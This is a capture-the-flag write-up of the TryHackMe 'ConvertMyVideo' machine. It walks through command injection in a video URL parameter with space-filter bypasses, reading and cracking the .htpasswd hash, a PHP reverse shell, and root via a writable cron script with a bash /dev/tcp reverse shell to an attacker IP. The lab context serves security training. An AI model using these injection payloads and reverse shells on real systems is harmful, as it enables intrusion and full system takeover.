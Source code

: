 # ConvertMyVideo [THM](https://tryhackme.com/room/convertmyvideo)

![machine=01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/machine-01.png)


### Recon

Lets kick off our enumeration stage with `nmap`:

![nmap-result-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/nmap-02.png)

Here are the results:	

Lets go take a look at this Apache server.


## Apache 

Lets navigate to the site:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/site-03.png)

Lets open Burp, and capture a request for some factitious youtube video ID.
We get following error message from the server:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-04.png)

Trying to send a legitamte youtube video ID stalls the server for a copule of minutes then 
returns nothing. So while waiting i decided to try directory busting. 


### Directory Busting

I used `ffuf`:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.
3-medium.txt:FUZZ -u http://10.10.79.56/FUZZ`

With it came some itersting results: 

![ffuf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/ffuf-res-05.png)


Visiting this URL prompts us for credetials: 

![pass-prompt-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-prompt-06.png)

It looks like a basic authintication scheme.

![burp-pass-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-pass-07.png)

Yes is it is.  HTTP Basic authentication is the simplest technique for 
enforcing access controls to web resources because it doesnâ€™t require cookies, session 
identifiers, or login pages; rather, HTTP Basic authentication uses standard fields in the 
HTTP header, obviating the need for handshakes.

This matters because, it means the web server is using `.htaccess` and `.htpasswd` files 
to authinticate users. `.htpasswd` is of special interest to us since it hold user credetials.  
If we can find this file on the server we have our entry point. 


### Command Injection

Lets start playing around with the HTTP headers to try and provoke server errors.
What if instead of going to youtube, we point the server to its self? 

![server-err-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/server-err-08.png)


Okay, the backend is using `youtube-dl`. It seems like whatever we pass to the `yt_url` 
parameter in our `POST` request, is passed to `youtube-dl` . 
  
`youtube-dl` is an open source project, you can find [here](https://github.com/ytdl-org/youtube-dl) 

Based on its github, the syntax is as follows: 
`youtube-dl [OPTIONS] URL`

In essense, whatever we supply to the `yt_url` parameter becomes the <URL> part above.
Lets try to break out of the `youtube-dl` command. 

To do that, im thinking of a few things, we can either try to send a cariage return sequance 
(works sometimes, not in this case). 

We can try Openining a subshell with backticks \`\` or $() to give priority to whatever is inside. 
(doesnt work in this case either). 

Or, We could also try to use `||` to execute two commands one after the other. 
This works:

![burp-ls-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-ls-09.png)

This is a command injection vulnerability, but we have one major issue, we cant uses spaces.
sending something like `||cat /etc/passwd` will break the execution. 

We have to use an espace sequance. After some experimentations ive found that `${IFS}` works:

![burp-esc-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-esc-10.png)

Now we can find the `.htpasswd` file with a simple search: `||find${IPS}-name${IFS}.htpasswd`.
This shows that the file is at `admin/.htpasswd`, lets cat it out: 

![creds-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/creds-11.png)


### The Admin Panel

The stored credetials are: `itsmeadmin : $apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`, 
its an arp1 hash. Can we crack it with `hashcat`? 

`hashcat --help | grep -i arp1`

![hashcat-help-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/hashcat-help-12.png)


Lets crack it: 
`hashcat -m 1600 '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' /usr/share/wordlists/rockyou.txt`

![pass-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-13.png)

The credtials to the admin panel are `itsmeadmin : jessie`  Lets log in: 
	
![admin-panel-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-panel-14.png)

If we take a look at the source code for the page: 

![admin-source-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-source-15.png)

It looks for a "c" parameter in the URL, we can use our previous command injection to try
and find the `index.php` file that runs in the backend for this page:

![index-pos-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-pos-16.png)

Lets cat it out: 

![index-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-17.png)

The backend checks if any argument was given to the "c" parameter in the URL.
If so, it execute the `system()` function to run whatever was given to it on the OS. 
 
This is another command injection vulnerability: 

![pwned-18](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pwned-18.png)

Lets send a reverse shell.


### Gaining Access

I like using [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

Change the port and ip to your situation: 

![pentest-19](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pentest-19.png)

Start a python server `python3 -m http.server 8888`

And download the file to the target: 

![upload-20](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/upload-20.png)

Start the listener with `nc -lnvp 4242`

Navigate to the file location: 

![navigate-21](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/navigate-21.png)

It stalls, thats a great sign, lets check the listener: 

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/shell-22.png)

Lets move to privilege escalation!


## Privilege Escalation

After looking around a bit, ive found nothing meaningful to exploit. 
Lets fire off `pspy64`:

![priv-esc-23](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/priv-esc-23.png)

We have UID 0 running a script from our user's home directory, Lets check the permissions: 

![perms-24](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/perms-24.png)

We can write to the file, Lets append a reverse shell to it:
`echo '/bin/bash -l > /dev/tcp/10.18.22.182/4242 0<&1 2>&1' >> clean.sh`

A few seconds after setting up the listener we get a connection:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/root-25.png) 
